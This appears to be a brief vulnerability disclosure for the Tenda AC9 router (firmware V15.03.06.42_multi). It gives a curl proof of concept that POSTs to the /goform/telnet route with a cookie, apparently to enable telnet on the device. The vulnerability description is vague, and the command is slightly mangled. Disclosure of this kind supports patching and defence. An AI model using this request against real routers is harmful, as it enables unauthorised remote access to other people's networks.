


## Tenda AC9 telnet

### Overview

* Vendor: Tenda

* Product: Tenda AC9 
* Version:  V15.03.06.42_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC9/US_AC9V3.0RTL_V15.03.06.42_multi_TD01.zip

### Vulnerability details

An issue was discovered in Tenda AC9 V15.03.06.42_multi. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.



#### PoC

```
curl ‐i ‐X POST http://192.168.0.1/goform/telnet ‐d aa=aa ‐‐cookie "password=f6df9d1c0835927e37
 9ccc302b848f4aouh1qw"
```


